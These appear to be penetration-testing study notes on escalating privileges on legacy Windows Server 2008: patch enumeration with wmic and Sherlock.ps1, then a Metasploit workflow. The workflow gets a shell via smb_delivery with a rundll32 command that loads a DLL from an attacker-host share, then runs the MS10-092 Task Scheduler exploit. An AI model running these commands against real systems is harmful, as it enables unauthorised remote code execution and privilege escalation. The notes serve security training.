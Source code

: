 
### **Legacy System Considerations**

- **Server 2008 EOL**: Jan 14, 2020.
- Often found in:
    - _Medical_, _academic_, _government_ sectors.

- Must balance _security recommendations_ with _business needs_.
- Look for:
    - _Network segmentation_
    - _Custom extended support_
    - _Mission-critical justification_

---

### **Patch Level Enumeration**

#### **Using WMI**:
```cmd
wmic qfe
```
- Reveals installed hotfixes (e.g. KB2533552 = outdated)


---

### **Using Sherlock.ps1**

- PowerShell module to check for common LPE vulnerabilities.
```powershell
Set-ExecutionPolicy Bypass -Scope Process
Import-Module .\Sherlock.ps1
Find-AllVulns
```
##### **Example vulnerable CVEs found**:

- _MS10-092_ – Task Scheduler XML (CVE-2010-3338)
- _MS15-051_ – ClientCopyImage Win32k
- _MS16-032_ – Secondary Logon Handle

---

### **Exploitation Workflow**

#### **Step 1: Gain Initial Shell via SMB Delivery**
```msf
use exploit/windows/smb/smb_delivery
set target 0
set SRVHOST <attacker-ip>
set LHOST <attacker-ip>
exploit
```

On target:
```cmd
rundll32.exe \\<attacker-ip>\<share>\test.dll,0
```

#### **Step 2: Migrate to 64-bit Process**
```meterpreter
ps → locate x64 process (e.g., conhost.exe)
migrate <pid>
```

#### **Step 3: Use MS10-092 (Task Scheduler XML PrivEsc)**
```msf
use exploit/windows/local/ms10_092_schelevator
set SESSION 1
set LHOST <attacker-ip>
set LPORT <port>
exploit
```

---

### **Alternative Enumeration and Exploitation Tools**

- _Windows-Exploit-Suggester_ (compare `systeminfo` output to vuln DB)
- _Manual enumeration_ if tools restricted
- _Metasploit_ modules for CVEs suggested by Sherlock
- _Multiple privilege escalation paths_ may exist (encouraged to explore)
